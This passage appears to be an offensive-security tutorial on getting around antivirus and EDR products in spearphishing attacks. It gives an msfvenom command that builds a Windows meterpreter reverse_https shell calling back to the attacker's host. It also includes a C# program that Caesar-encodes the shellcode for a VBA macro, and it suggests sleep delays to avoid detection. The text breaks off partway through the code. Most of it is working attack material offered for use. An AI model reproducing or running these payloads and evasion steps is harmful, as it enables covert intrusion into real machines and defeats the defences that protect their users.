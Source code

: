 In this section, we’ll break down AV/EDR evasion techniques and how attackers bypass macro-based phishing payloads, malicious scripts, and fileless execution to achieve initial access without detection

### 1. Spearphishing Attachment (T1566.001) & AV/EDR Bypass
#### VBA & Bypass AV
1. Create the payload using `msfvenom` and copy it to the script `CeasarVBAHelper.cs` below:
    ```bash
    sudo msfvenom -p windows/meterpreter/reverse_https LHOST=tun0 LPORT=443 EXITFUNC=thread -f csharp
    ```

2. Use `CeasarVBAHelper` C# Script to generate the VBA shellcode:
    - We are going to use Caesar Cipher: This is a very simple routine, and reversing it is just as straightforward. By rotating the same number of letters to the left, we can restore the original text:
        - We chose a substitution key of 2, iterated through each byte value in the shellcode, and simply added 2 to its value.
        - To ensure the modified value remains within the 0-255 range (a single byte), we performed a bitwise AND operation with 0xFF in case the increased byte value exceeds 0xFF.
    - Additionally, we incorporate Sleep Time to help evade detection and bypass certain security mechanisms.

    - The `CeasarVBAHelper.cs`
        ```csharp
        using System;
        using System.Collections.Generic;
        using System.Linq;
        using System.Text;
        using System.Threading.Tasks;

        namespace CeasarVBAHelper
        {
            class Program
            {
                static void Main(string[] args)
                {
                    // msfvenom -p windows/meterpreter/reverse_https LHOST=tun0 LPORT=443 EXITFUNC=thread -f csharp
                    byte[] buf = new byte[752] {0xfc, 0x48, .....}

                    byte[] encoded = new byte[buf.Length];
                    for (int i = 0; i < buf.Length; i++)
                    {
                        encoded[i] = (byte)(((uint)buf[i] + 2) & 0xFF);
                    }
                    uint counter = 0;
                    // Output the encrypted shellcode
                    StringBuilder hex = new StringBuilder(encoded.Length * 2);
                    foreach (byte b in encoded)
                    {
                        hex.AppendFormat("{0:D}, ", b);
                        counter++;
                        if(counter % 50 == 0)
                        {
                            hex.AppendFormat("_{0}", Environment.NewLine);
                        }
                    }

